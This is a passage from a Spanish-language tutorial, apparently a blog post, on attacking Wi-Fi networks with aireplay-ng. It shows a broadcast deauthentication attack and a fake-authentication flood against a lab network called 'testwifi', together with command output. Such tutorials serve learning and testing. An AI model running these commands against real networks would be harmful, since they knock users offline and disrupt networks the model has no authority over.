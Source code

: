 De igual manera, hay otra forma de efectuar este ataque y a mi gusto es más fácil; en esta forma no hay que especificar ni una dirección mac. De alguna estación objetivo, solo los datos básicos como bssid, tipo de ataque y interfaz de red, a continuación de esta forma:

```bash
[root@arch ~]# sudo aireplay -0 0 -a 15:E7:95:73:D4:90 wlan0mon
21:11:46  Waiting for beacon frame (ESSID: testwifi) on channel 7
Found BSSID "15:E7:95:73:D4:90" to given ESSID "testwifi".
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
21:11:46  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:47  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:47  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:48  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:48  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:49  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:49  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:50  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:50  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
21:11:51  Sending DeAuth (code 7) to broadcast -- BSSID: [15:E7:95:73:D4:90]
```

### Ataque de autenticación

¿Parece un poco raro el nombre del ataque, ¿no? Suena irónico, pero existe este ataque de autenticación o asociación. La idea es, en vez de expulsar a los clientes de un AP, añadirlos.

Bueno, nuestra idea siempre es hacer que los clientes dentro de la red inalámbrica o AP se desconecten, ya sea mediante ataques directos como el ataque de desautenticación o esperando a que se desconecten y luego se vuelvan a conectar. Sin embargo, con este ataque, la idea es añadir muchos clientes al AP, hasta el punto en que el AP se sobrecargue, no pueda soportar la cantidad de conexiones y empiece a expulsar a los clientes asociados a la red.

Este mismo ataque se representa con el número `-1`. Como ya expliqué arriba, la propia herramienta tiene un panel de ayuda, y el número -1 indica el ataque de autenticación falsa (**Fake Auth**).

Retomando el escenario anterior:

```bash
CH  7 ][ Elapsed: 0 s ][ 2019-08-08 20:12                                         
                                                                                                                                                                                       
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                                       
 15:E7:95:73:D4:90  -26 100       29        7    3   7  180  WPA2 CCMP   PSK  testwifi                                                                                                  
                                                                                                                                                                                       
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                                                             
                                                                                                                                                                                       
 15:E7:95:73:D4:90  34:41:5D:46:D1:38  -26    0e- 6e     0        9  
```

De esta manera es como añadiremos a un cliente con la herramienta aireplay:

```bash
[root@arch ~]# sudo aireplay-ng -1 0 -e testwifi -h 11:22:33:44:55:66 wlan0mon
21:20:28  Waiting for beacon frame (ESSID: testwifi) on channel 7
Found BSSID "15:E7:95:73:D4:90" to given ESSID "testwifi".

21:20:28  Sending Authentication Request (Open System) [ACK]
21:20:28  Authentication successful
21:20:28  Sending Association Request

21:20:33  Sending Authentication Request (Open System) [ACK]
21:20:33  Authentication successful
21:20:33  Sending Association Request

21:20:38  Sending Authentication Request (Open System) [ACK]
```